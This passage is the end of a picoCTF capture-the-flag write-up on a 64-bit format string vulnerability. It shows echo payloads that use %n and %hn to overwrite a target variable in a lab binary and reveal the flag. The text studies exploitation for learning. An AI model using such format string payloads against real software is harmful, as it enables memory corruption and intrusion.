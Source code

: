 - `%n` write the data in integer so I check the integer value of `0x67616c66` (The target value of `sus`).

```terminal
$ python
>>> 0x67616c66
1734437990
```

- Print out random character using `%d` and overwrite `sus` using `%n`.

```terminal
$ echo '%1734437989d,%17$n,AAAAA\x60\x40\x40\x00\x00\x00\x00\x00' | ./vuln
I have NO clue how you did that, you must be a wizard. Here you go...
u got the flag
```

- Only 1734437989 characters print out because need to count in that `,` is also get printed out.

- It takes some time, so overwrite the data 4 bytes by 4 bytes using `%hn` is more efficient.

```terminal
$ echo '%26464d,%19$hn%1285d%18$hn,AAAAA\x60\x40\x40\x00\x00\x00\x00\x00\x62\x40\x40\x00\x00\x00\x00\x00' | 
I have NO clue how you did that, you must be a wizard. Here you go...
picoCTF{f0rm47_57r?_f0rm47_m3m_741fa290}
```
## Conclusion
This challenge requires an understanding of stack structure in 64-bit programs and exploiting format string vulnerabilities to overwrite values and retrieve flags.
